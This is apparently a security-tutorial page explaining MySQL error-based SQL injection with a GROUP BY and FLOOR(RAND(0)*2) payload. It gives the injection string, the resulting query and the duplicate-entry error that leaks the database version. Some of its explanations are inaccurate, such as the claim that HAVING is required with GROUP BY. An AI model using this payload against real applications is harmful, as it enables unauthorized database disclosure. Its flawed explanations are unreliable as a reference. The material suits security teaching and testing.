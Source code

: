 ```yaml
---
title: MYSQL Error Based SQL Injection - GROUP BY Technique
description: Explore MySQL error-based SQL injection using GROUP BY clause to extract
  database schema information.
keywords:
- MySQL
- error-based SQL injection
- GROUP BY
- database schema
- RAND()
- vulnerability exploitation
- information disclosure
---
```


# MYSQL Error Based - GROUP BY

## Context

This article explores the exploitation of MySQL error-based SQL injection using the `GROUP BY` clause. This technique leverages improperly handled errors in SQL queries to extract sensitive information from a database. To fully understand and implement this technique, you should have a foundational knowledge of SQL syntax, MySQL functions, error handling, and previous experience with MySQL error-based SQL injections.

## Theory

### Error-Based SQL Injection in MySQL

Error-based SQL injection is an offensive technique that exploits error messages to gain insights into the database structure. By crafting deliberate errors in SQL queries, an attacker can force the database to return error messages that may reveal valuable information. This method is particularly useful when other SQL injection techniques do not yield results.

### GROUP BY Clause in SQL

The `GROUP BY` clause is an SQL command used to aggregate data by grouping rows that share certain properties. It is commonly used in conjunction with aggregate functions such as COUNT, SUM, AVG, etc. Using `GROUP BY` improperly, such as specifying non-existent columns, can generate errors, making it a target for error-based SQL injection attacks.

### Error Generation via GROUP BY

Injecting a `GROUP BY` clause using invalid columns can trigger errors, which are exploited to retrieve information about the database schema. The errors often contain hints about column names and data types, which are critical for further exploitation. This attack sequence involves introducing randomness or deliberate flaws in the `GROUP BY` clause to provoke the desired errors.

## Practice

1. **Identify Injectable Parameter**: Start by identifying a parameter in a SQL query that is vulnerable to injection. This often involves testing inputs such as page parameters, forms, or URLs for SQL syntax errors or unusual behavior.

   ```http
   http://example.com/product.php?id=1
   ```

2. **Inject GROUP BY Clause**:
   - Use the following SQL injection payload to target a vulnerable query:
   ```sql
   1' GROUP BY CONCAT_WS(':', version(), FLOOR(RAND(0)*2)) HAVING MIN(0) -- -
   ```
   - Full query becomes:
   ```sql
   SELECT name FROM users 
   WHERE id = '1'
   GROUP BY CONCAT_WS(':', version(), FLOOR(RAND(0)*2)) 
   HAVING MIN(0) -- -
   ```
	- CONCAT_WS(':', ...): Function: Joins multiple strings using : as a delimiter.
	- FLOOR(RAND(0)*2): 
		- RAND(0) is a seeded pseudo-random number generator (same seed = deterministic sequence).
		- RAND(0)*2 returns a float between 0 and 2 → e.g., 0.234, 1.892, etc.
		- FLOOR(...) then reduces it to 0 or 1.

			 > Each row has a 50/50 chance of being tagged with 0 or 1.
        
	- GROUP BY CONCAT_WS(...): This randomly groups rows based on: 
		- The MySQL version (constant for all rows)
		- A random binary (0 or 1) value

			 > Because random values are used, it is probable that two rows will have the same group key, like: 8.0.33:1 and 8.0.33:1

	- HAVING MIN(0): The HAVING clause is required syntactically for GROUP BY, and MIN(0) is used as a dummy condition:
		- It’s always false, and ensures that no rows are returned normally.
		- This helps prevent the app from showing anything in the output—only the error is visible.

			> So while the real exploit occurs through the error message, the result set itself is empty.
       

3. **Observe Error Message**:
   - Execute the injected SQL query and closely observe the error message returned by the database. This could result to an error message like:
   ```sql
   Duplicate entry '8.0.33:1' for key '<group_key>'
   ```


## Tools

- sqlmap
